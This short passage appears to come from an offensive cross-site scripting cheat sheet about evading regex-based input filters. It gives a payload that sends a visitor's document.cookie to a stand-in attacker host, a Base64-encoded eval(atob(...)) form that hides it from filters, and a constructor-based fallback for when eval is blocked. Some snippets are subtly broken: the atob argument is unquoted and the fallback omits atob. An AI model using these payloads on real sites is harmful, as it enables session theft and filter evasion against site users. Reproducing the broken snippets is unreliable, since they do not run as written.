 Most web application uses a Regex-based filtering system that searches for malicious strings. A possible way to escape/evade these type of filters is by using Base64 encoding.

For example, the following payload will be detected by the filtering system, because `document.cookie` may be a sign that someone is attempting to steal a cookie:
```txt
location.href = 'http://evilpath.com/?c='+escape(document.cookie)
```

Using Base64 encoding, we can hide `document.cookie`
code translating the payload into:
```txt
eval(atob(bG9jYXRpb24uaHJlZiA9ICdodHRwOi8vZXZpbHBhdGguY29tLz9jPScrZXNjYXBlKGRvY3VtZW50LmNvb2tpZSk=))
```

In the event the `eval` function is blacklisted, the following functions can be used as an alternative:
- `[].constructor.constructor('BASE_64_ENCODED_PAYLOAD')()`
